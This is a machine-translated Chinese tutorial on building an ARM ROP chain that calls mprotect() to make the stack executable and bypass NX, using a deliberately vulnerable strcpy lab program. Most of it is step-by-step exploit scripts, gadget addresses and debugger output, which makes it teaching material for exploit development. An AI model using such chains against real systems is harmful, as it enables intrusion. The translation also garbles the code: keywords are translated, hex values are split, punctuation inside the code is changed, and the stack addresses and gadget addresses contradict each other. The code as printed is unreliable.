# 在 ARM 中使用 ROP 链调用 mprotect()

> 原文：<https://infosecwriteups.com/invoking-mprotect-using-rop-chains-in-arm-d737bea2a9bb?source=collection_archive---------0----------------------->

你好，欢迎回来，

今天我们将经历一些痛苦的事情。老实说，这并不痛苦，但很有趣。所以在本文中，我们将制作自己的 ROP 链来调用 mprotect()。我会解释这一切，所以不要担心，但在此之前，你需要一些基础知识

我所说的基础知识是指你需要掌握一些关于利用 ARM 中的基本缓冲区溢出的知识，还应该熟悉 ARM ROP 链

如果你没有这方面的知识，请**自己武装**。对于 ROP 链，我强烈推荐自己阅读下面这篇文章，我向你保证这 25 分钟是值得的。

> [https://medium.com/@ad2001/rop-chains-on-arm-3f087a95381e](https://medium.com/@ad2001/rop-chains-on-arm-3f087a95381e)

所以，这些是阅读这篇文章的前提。现在让我们进入主题。

# Mprotect 介绍()

你们中的大多数人应该对 mprotect()有所了解，这就是为什么你们会点击这个按钮，对吗？？如果你不让我解释。

为此，我将使用在线 Linux 手册页

> [https://pubs . open group . org/online pubs/009695399/functions/mprotect . html](https://pubs.opengroup.org/onlinepubs/009695399/functions/mprotect.html)

*mprotect* ()函数应将访问保护更改为由 *prot* 指定的访问保护，用于包含进程地址空间任何部分的整个页面，从地址 *addr* 开始，持续到 *len* 字节。

很好理解？？

抱歉，我只是在开玩笑。简而言之，mprotect()是一个可以用来改变内存区域保护的函数。例如，它可以将具有“读”权限的选择性存储器区域改变为具有“写”权限。它接受下面提到的三个参数

***addr*** :需要改变保护的区域的起始地址。

***len*** :需要改变保护的区域的长度，以字节为单位。

***prot*** :是内存映射区域的期望保护。

> `int mprotect(void **addr*, size_t *len*, int *prot*);`

我们将在后面详细讨论这个函数。目前这已经足够了

所以这里的主要问题是，我们为什么要使用这个函数，在我们的开发中使用这个函数的目的是什么？？

在之前的文章中，我写过 ARM ROP 链。如果你想一想我们为什么使用 ROP 链，主要原因是为了绕过 NX(无执行)。NX 使我们的栈不可执行，所以我们不能执行我们的外壳代码。为了绕过这个限制，我们想出了 ROP 链来调用其他函数，比如 system()函数，它让我们能够生成 shell。但是这是这次攻击的一些缺点。你能猜到吗？

我们能用这些简单的 ROP 链做的事情(调用 system())在某种程度上是有限的。简而言之，我们没有外壳代码赋予我们的完全自由。想象一下，如果您想要一个反向 shell 连接，我们可以很容易地用我们的 shell 代码做到这一点。我们可以用外壳代码做的事情更加灵活。但是在我们的例子中，NX 是启用的，所以为了执行我们的外壳代码，我们需要我们的堆栈来执行。这就是 mprotect()发挥作用的地方

我们可以使用 mprotect()来改变堆栈的权限级别。简单地说，我们可以使用这个 mprotect()函数使我们的**堆栈再次可执行**。听起来很棒吗？

与我们对系统函数所做的不同，这有点复杂，因为在系统函数中我们只需要传递一个参数，但在这里我们需要传递三个参数来使我们的堆栈再次可执行。

让我们再次深入我们的 mprotect()函数。该函数有 3 个参数。我不想解释得太清楚，也不想浪费我们宝贵的时间，所以我只讲我们需要的东西。

我们需要传递三个论点。所以第一个参数是*地址*。*地址*是指我们需要改变权限模式的区域的地址。第二个参数是适用于权限更改的内存区域的长度/大小。最后，第三个参数需要权限的值。

让我解释一下传递这些值的原因。r1 寄存器需要存储区的大小。因此，您可以使用任何适合我们有效载荷的值。我使用值 0x10101010 的原因是它不包含任何空字节，可以很容易地适应我们的外壳代码。

值 0x00000007 用于授予对堆栈的读、写和**执行**权限。这样我们就可以使堆栈可执行。我想现在一切都清楚了。现在我们的寄存器包含

*r0 —堆栈的地址*

*R1–0x 10101010(存储区的大小)*

*R2–0x 00000007(用于读取、写入和执行)*

现在是时候找到小工具了。

我们可以用 ropper 来做这个。我想你们知道如何使用 ropper 找到小工具。所以让我们开始一个一个地为每个寄存器寻找小工具。

在此之前，我将使用上一篇 ROP 链文章中的相同二进制文件。它使用易受攻击的 ***strcpy()*** 函数，导致缓冲区溢出，pc 在 24 个字符后会被覆盖

> # include<stdio.h># include<string . h></stdio.h>
> 
> int main(int argc，char * * argv)
> {
> char whatever[20]；
> strcpy(whatever，argv[1])；//漏洞
> 
> 返回 0；
> }



# 为 r1 查找小工具

我为 r1 寻找小工具的原因是因为它是最简单的。让我们开始吧

我在我的 azeria labs 虚拟机中，我将使用 ropper 来查找小工具。所以我将 ***libc 库*** 加载到 ropper 中，并开始搜索可以将数据从堆栈加载到 r1 的小工具。为此，我们可以使用包含 **pop** 或 **idr** 指令的小工具。



如你所见，有许多小工具。但第三个小工具似乎是最合适和最简单的。我们将使用这个小工具将值 0x10101010(大小)放入 r1 寄存器。所以我会用那个。您可以将此小工具复制到记事本或其他地方。

> 0x0010a1b8: pop {r1，PC }；

现在让我们继续我们的第二个小工具。

# 为 r0 查找小工具

我们可以寻找将值加载到 r0 并返回我们的控制(pc)的小工具。我们将使用与查找 r1 小工具相同的方法。我们可以从之前的结果中寻找小工具。如果你仔细观察，第二个小工具将为我们做这项工作。



> 0x0007a12c: pop {r0，r4，PC }；

这将从堆栈中弹出三个值到 r0、r4 和 pc。我们将把堆栈的地址放在 r0 这里。像往常一样把这个小玩意复制到某个地方。继续我们最后的小工具。这是困难的部分，我会解释为什么

# 为 r2 查找小工具

继续我们最后的小工具。我们需要将值***0x 000000007***放入 r2 寄存器，但是在这种情况下，我们不能使用 POP 或 IDR 小工具，为什么？？

再看数值。值为****0x 00000007****。因此，即使我们手动提供该值，并尝试通过任何小工具将该值放入 r2 寄存器，也不会起作用，因为它有空字节。空字节会破坏我们的有效载荷，并且值 0x00000007 不会被复制到我们的 r2 寄存器。**

*那么我们将如何解决这个问题呢？？*

*我们可以找到一个小工具，它可以将值 0x00000007 复制到寄存器中，从而破坏我们的漏洞。为此，我们可以使用一个包含值 0x00000007 作为硬编码值的小工具。有什么想法吗？*

*这个问题的答案是 **mov** 指令。因此，我们可以使用 mov 小工具将硬编码值 0x00000007 复制到 r2 寄存器中。让我们使用 ropper 找到这个小工具。*

> *(libc _ 2.19 . so/ELF/ARM)> search/1/mov*

**

*从结果中可以看出，没有小工具将值 0x00000007 直接复制到 r2。但是小工具“mov r0，# 7；pop {r4，PC }；"可以将值 7 (0x00000007)放入 r0。所以我们可以用这个小工具把值放到 r0，然后用另一个小工具把这个值移到 r2。*

> *0x 000 D2 AC:mov r0，# 7；pop {r4，PC }；*

*现在让我们来找一个小工具，将 r0 的值复制到 r2。*

> *(libc_2.19.so/ELF/ARM)>搜索 mov
> [INFO]搜索小工具:mov*

**

*我发现了两个很好的工具。*

> *0x000d9ef0: mov r2，r0；mov r0，R6；blx r3
> 0x000d9ef0: mov r2，r0；mov r0，R6；blx r3pop {r4，r5，r6，PC }；*

*现在的问题是选择哪一个。嗯，我更喜欢第一个，因为它比第二个简单。*

*哦，等等？？*

*分支到 r3？？？*

*我们甚至不能控制 r3，而且 r0 现在包含 7 个。我们还需要将该值改回大小。我希望你在某个地方复制了所有的小工具。如果你这样做了，让我们开始解决这个问题。*

# *修复漏洞*

*让我们用现有的小工具开始编写 python 脚本。我会用纳米来做这个*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；*

*这是目前为止的利用情况。我不会像什么是 struct，libc_base 等那样逐行解释。我再次强烈推荐您阅读我在本文开头提到的 ROP 链文章。*

*这里，libc_base 变量包含 libc 基址，有效负载被制作到 exp 变量中。所以在覆盖了 pc 之后，我们把第一个小工具的地址。*

*该脚本将把值 0x10101010 放入 r1，并交还控制权，以便我们可以执行下一个小工具。*

*接下来，我们可以将堆栈的地址放入 r0 寄存器。要找到这个地址，将程序加载到 gdb 中，在 main 中放一个 bp，然后运行它。*

> *pi@raspberrypi:~/asm/bof $ gdb。/BOF-ROP
> GNU gdb(Raspbian 7 . 7 . 1+dfsg-5+rpi 1)7 . 7 . 1
> Copyright 2014 Free Software Foundation，Inc .
> License GPLv3+:GNU GPL version 3 或更高版本<[http://gnu.org/licenses/gpl.html](http://gnu.org/licenses/gpl.html)>
> 这是自由软件:你可以自由更改和重新发布它。
> 在法律允许的范围内，不提供任何担保。键入“显示复印”
> 和“显示保修”了解详情。
> 这个 GDB 被配置为“arm-linux-gnueabihf”。
> 输入“显示配置”了解配置详情。
> 关于 bug 报告的说明，请参见:
> <[http://www.gnu.org/software/gdb/bugs/](http://www.gnu.org/software/gdb/bugs/)>。
> 在
> <[http://www.gnu.org/software/gdb/documentation/](http://www.gnu.org/software/gdb/documentation/)>找到 GDB 手册和其他在线文档资源。如需帮助，请键入“help”。
> 键入“apropos word”以搜索与“word”相关的命令……
> [*]没有调试会话处于活动状态
> GEF for linux 就绪，键入“GEF”以启动，键入“gef config”以配置
> 使用 Python 引擎 2.7 为 GDB 7.7.1 加载的 56 个命令
> [*] 4 个命令无法加载，运行“gef missing”以了解原因。从…读取符号。/BOF-ROP……(找不到调试符号)……完成。
> GEF>b main
> 0x 10420 处的断点 1
> GEF>r AAA*

*当它命中 bp 时，使用 **vmmap** 命令检查堆栈的地址*

**

***开始**段的地址就是我们需要的地址。如果你仔细观察堆栈的权限，它会说“ *rw-”。*这表示堆栈有*读*和*写*的权限，但没有*执行*的权限。现在让我们修改漏洞*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000)#堆栈基址
> exp+=(" AAAA ")
> exp+= struct . pack()*

*现在，让我们添加我们的其他小工具。*

> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000)#堆栈基址
> exp+=(" AAAA ")#垃圾
> exp += struct.pack(" < I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3*

*所有小工具都已添加。现在让我们试着解决我们的问题*

*首先，我们需要解决分支问题。要解决这个问题，我们需要控制 r3，以便它将分支到我们控制的节点。所以让我们找一个小工具来帮助我们控制 r3*

**

> *0x00019270: pop {r3，PC }；*

*这是有史以来最简单的小工具！！！！！！。所以这会弹出一些东西给 r3 和 pc。下一个问题是我们在 r3 里放什么。有什么猜测吗？*

*在这里，我们可以在 r3 中放一些东西，这样它就不会改变其他寄存器的值，也不会弄乱流程。这可以借助简单的“ *pop {pc}”指令来实现。*让我们再次使用 ropper 找到这个小工具*

**

> *0x0002df80: pop {r7，PC }；*

*这是唯一一个简单的指令，没有太多的复杂性，因为 r7 对我们来说是一个无用的寄存器，我们不关心 r7 中的值。*

*现在是时候修改我们的漏洞脚本了。*

*现在你会考虑在哪里插入这些新的小工具，你可以在最后一条指令之前的任何地方添加这些小工具，因为这不会影响我们的执行流程，因为它们把对 pc 的控制权还给我们了。我将在第二个小工具之后插入这些新小工具(pop {r0，r4，PC }；)*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000)#堆栈基址
> exp+=(" AAAA ")#垃圾
> exp += struct.pack(" < I "，base_libc + 0x00019270) # pop {r3，PC }；#新增 gadget
> exp+= struct . pack("<I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(“AAAA”)
> exp+=下一条指令*

*所以我们添加了这个小工具，这将解决我们的分支问题，并把控制权还给我们。*

*让我们进入下一个问题。如你所知，我们利用 r0 将值 7 复制到 r2。因此，这将 r0 的值更改为 7，但我们需要 r0 的值作为堆栈的地址，以便我们可以成功调用 mprotect()函数。*

*这里有一个简单的解决办法，我们只需要重新排列这些小工具，我会告诉你我的意思。让我们再次修改漏洞*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(“AAAA”)# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000)#堆栈基址
> exp+=(" AAAA ")#垃圾
> exp += struct.pack(下一个)*

*慢慢来，分析我做的改变。*

*我只是将利用 r0 寄存器将值 7 复制到 r2 的小工具作为第一条指令，并将 pop 指令重新安排到最后。*

*让我们检查一下这个漏洞是否有效。在此之前，在下一条指令中放置一个空值，这是我们接下来要放置 mprotect()地址的地方，同时将堆栈地址更改为一个目前不包含任何空字节的地址(0x bedfd 000-> 0x bedfd 080)。*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 080)#堆栈基址
> exp+=(" AAAA ")#垃圾
> exp += ("BBBB") #mprotect()地址*
> 
> *打印(出口)*

*将二进制文件加载到 gdb 中，使用“b main”在 main 中放置一个断点，同时确保 alsr 关闭。*

**

*现在使用我们的 python 脚本作为输入来运行程序*

> *gef> r $(python mprotect2.py)*

*点击 bp 后，进行反汇编，并在最后一个 pop {r7，pc}处放置一个断点。*

**

*现在按 c 键继续程序。*

**

*我们撞上了 bp。这个 pop 会将执行重定向到我们的第一个 rop 小工具。*

*这是一个一个地步进每个小工具的视频。*

*最后，你可以看到所有的参数都被正确地放置在寄存器中(除了 r0 ),并且 pc 已经被“BBBB”覆盖*

**

*现在，让我们通过修复空字节并将 mprotect()的地址*

*我们可以使用上一篇文章中的小工具来修复空字节。*

> *0x000fe910:加 r0，r0，# 0x80pop {r3，PC }；*

*这个小工具会把 0x80 加到 r0 上，然后把控制权还回去。所以这里我们需要做的是，我们要放一个值“***0x bedfd 000–0x 80***”。我们的小工具将添加 0x80，并将其恢复为“0xbefdf000”，这是堆栈的实际地址。让我们把这个小工具加入到我们的利用中*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000–0x 80)#堆栈基址
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x000fe910) #add r0，r0，# 0x80pop {r3，PC }；
> exp+=(“AAAA”)# junk
> exp+=(“BBBB”)# mprotect()地址*
> 
> *打印(出口)*

*现在让我们找到 mprotect()的地址。让我们加载二进制文件，在 main 中放置一个 bp 并运行它*

*让我们加载二进制文件，在 main 中放置一个 bp，然后运行它。点击断点后，使用“*disass”*命令在 mprotect 处进行反汇编*

> *gef >拆卸保护*

**

*复制指令的地址(push {r7})并粘贴到我们的漏洞利用脚本中*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000–0x 80)#堆栈基址
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x000fe910) #add r0，r0，# 0x80pop {r3，PC }；
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，0 XB 6 f 41 e 90)# mprotect()address
> exp+= " BBBB " # junk*
> 
> *打印(出口)*

